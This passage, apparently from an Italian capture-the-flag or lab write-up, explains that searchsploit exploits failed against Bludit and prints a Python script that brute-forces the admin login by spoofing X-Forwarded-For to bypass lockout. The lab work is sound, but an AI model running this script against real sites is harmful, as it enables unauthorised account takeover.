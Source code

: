 Dopo diversi tentativi nessuna delle soluzioni fornite da searchsploit sembra funzionare.
ma cercando in rete troviamo questo [articolo](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) dove si parla di Bludit Brute Force Mitigation Bypass

```python
#!/usr/bin/env python3
import re
import requests

host = 'http://192.168.194.146/bludit'
login_url = host + '/admin/login'
username = 'admin'
wordlist = []

# Generate 50 incorrect passwords
for i in range(50):
    wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
wordlist.append('adminadmin')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break
```

